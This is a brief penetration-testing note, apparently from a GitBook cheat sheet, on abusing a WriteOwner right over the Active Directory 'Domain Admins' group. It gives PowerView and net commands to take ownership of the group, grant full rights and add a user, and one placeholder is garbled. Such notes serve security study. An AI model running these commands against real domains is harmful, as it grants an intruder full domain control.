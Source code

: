 # WriteOwner Over Domain Admins



![](../../../.gitbook/assets/2022-08-16\_15-34.png)

What this basically means is that we can pottentially add that user to the Domain Admins Groupjs because it has write permissions on the properties of the group.&#x20;

Depending whether we have credentials or a session as the user we might have to provide the variables for the password and the creds.

After importing PowerView.

```
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity <user that has privs>
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity <user that has the priv>
net group "Domain Admins" Muser that has the priv> /add /domain
```

Afterwards we should be part of the domain admins.&#x20;
